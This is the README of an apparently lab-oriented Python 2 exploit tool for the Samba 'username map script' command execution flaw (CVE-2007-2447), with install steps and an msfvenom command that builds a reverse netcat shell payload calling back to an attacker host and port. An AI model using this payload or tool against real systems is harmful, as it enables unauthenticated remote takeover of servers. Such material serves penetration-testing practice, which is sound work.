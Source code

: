# smb-usermap-destroyer
Smb Usermap Destoyer is a python2 exploit for 𝗖𝗩𝗘-𝟮𝟬𝟬𝟳-𝟮𝟰𝟰𝟳 ('𝗨𝘀𝗲𝗿𝗻𝗮𝗺𝗲' 𝗺𝗮𝗽 𝘀𝗰𝗿𝗶𝗽𝘁 𝗖𝗼𝗺𝗺𝗮𝗻𝗱 𝗘𝘅𝗲𝗰𝘂𝘁𝗶𝗼𝗻).
I created my own python script to automate the attack and avoid the exploitation with msfconsole.

𝗢𝗳𝗳𝗶𝗰𝗶𝗮𝗹 𝗱𝗲𝘀𝗰𝗿𝗶𝗽𝘁𝗶𝗼𝗻 𝗼𝗳 𝘃𝘂𝗹𝗻𝗲𝗿𝗮𝗯𝗶𝗹𝗶𝘁𝘆:

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! (source: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script).


Before use the exploit install the following requirements:

➡ Install python2:
    apt install python

➡ Install pip:
    apt install python-pip (If you can't find python-pip package try donwload pip insytaller from: https://bootstrap.pypa.io/get-pip.py).

➡ Install with pip the pysmb implementation:
    pip install --user pysmb
        
Shellcode generation and configuration:

• Create your own Shellcode with your host and port:
    
𝗺𝘀𝗳𝘃𝗲𝗻𝗼𝗺 -𝗽 𝗰𝗺𝗱/𝘂𝗻𝗶𝘅/𝗿𝗲𝘃𝗲𝗿𝘀𝗲_𝗻𝗲𝘁𝗰𝗮𝘁 𝗟𝗛𝗢𝗦𝗧=𝟭𝟬.𝟭𝟬.𝟭𝟬.𝟯𝟬 𝗟𝗣𝗢𝗥𝗧=𝟭𝟯𝟯𝟳 -𝘃 𝘀𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 -𝗳 𝗽𝘆𝘁𝗵𝗼𝗻
    
• Then repllace the default.
